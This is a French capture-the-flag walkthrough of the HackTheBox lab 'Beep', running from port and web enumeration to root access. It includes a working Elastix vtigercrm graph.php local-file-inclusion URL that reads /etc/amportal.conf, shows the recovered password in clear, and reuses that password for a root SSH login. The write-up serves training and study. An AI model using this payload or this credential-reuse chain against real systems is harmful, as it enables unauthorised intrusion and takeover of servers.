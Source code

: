# Box 


```diff
+ Niveau: Facile
```

Il existe plusieurs façon de resoudre cette box au travers des différents services exposés. J'ai choisi de montrer celle qui m'a permis de root la box moi même.

* **LFI**
* **mot de passe réutilisé**
* **SSH**


# FootHold

La première chose que je fais que je m'attaque à une box HTB c'est d'ajouter la résolution de nom <box>.htb à mon fichier /etc/hosts:

`echo "10.129.152.59	beep.htb"`

## Enumération des ports 

Scannons d'abords tout les ports:

`nmap 10.129.151.94 -p-` 

```
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
944/tcp   open  unknown
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4190/tcp  open  sieve
4445/tcp  open  upnotifyp
4559/tcp  open  hylafax
5038/tcp  open  unknown
10000/tcp open  snet-sensor-mgmt
```

Nous effectuons maintenant un scan plus complet sur les ports désignés (option -p):

`nmap 10.129.151.94 -p 22,25,80,110,111,143,443,944,993,995,3306,4190,4445,4559,5038,10000 -A `

```
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp?
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.129.151.94/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3?
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap?
443/tcp   open  ssl/https?
|_ssl-date: 2021-05-25T14:38:08+00:00; 0s from scanner time.
944/tcp   open  status     1 (RPC #100024)
993/tcp   open  imaps?
995/tcp   open  pop3s?
3306/tcp  open  mysql?
|_mysql-info: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve?
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax?
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```

## Site Web http:// deep.htb  et https:// deep.htb

Le site force l'usage d'HTTPS, il n'y a donc "rien à voir" sur le port 80 et nous sommes redirigés vers le port 443.

Il s'agit d'Elastix: 
![elastix](_ressource/Screenshot_20210526_095805.png)

### Enumération Web 

Pour se faire, j'utilise gobustrer, que je trouve très puissant (en terme de rapidité) et très complet (en termes d'options).

```
# Version "complete" installé via Github
gobuster dir -u https://deep.htb -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -k

# Version "short" installé via apt

gobuster -u https://deep.htb -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -k
```

_NB: Ne pas oublier l'option -k qui permet d'utiliser le mode "insecure" et donc d'ingorer les certificats SSL du site HTTPs._

```
/index.php (Status: 200)
/images (Status: 301)
/help (Status: 301)
/register.php (Status: 200)
/themes (Status: 301)
/modules (Status: 301)
/mail (Status: 301)
/admin (Status: 301)
/static (Status: 301)
/lang (Status: 301)
/config.php (Status: 200)
/robots.txt (Status: 200)
/var (Status: 301)
/panel (Status: 301)
/libs (Status: 301)
/recordings (Status: 301)
/configs (Status: 301)
```

Après avoir fouillé un peu partout il ne semble pas y avoir de choses intéressantes à première vue.


### Recherche de faille:

Lorsqu'il s'agit de rechercher une faille, j'aime utiliser l'outil "searchsploit" disponible sur Kali.

`searchsploit elastix`

Parmis les failles proposés, celle qui me semble pour l'instant intéressante est la (LFI sur le graph.php)[https://www.exploit-db.com/exploits/37637].

> LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

On se rend donc sur la page: https://deep.htb/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

L'affichage n'est pas optimal, pour y voit plus clair: `CTRL + U` pour afficher le code source

![img](_ressource/ctrl.png)

On voit que le mot de passe suivant est utilisé un peu partout: **jEhdIekWmdjE**


# Root

## Accès SSH

Lorsque qu'on essaie de se connecter à l'utilisateur root via ssh (et le mot de passe: jEhdIekWmdjE ) un message d'erreur apparaît:

```
ssh root@beep.htb

Unable to negotiate with 10.129.152.59 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1`
```

Pour régler ce problème:

`echo "KexAlgorithms +diffie-hellman-group1-sha1" >> ~/.ssh/config`

**NB**: On n'oubliera pas d'effacer ce fichier/cette ligne à la fin du CTF.

Il est maintenant possible de se connecter en root.
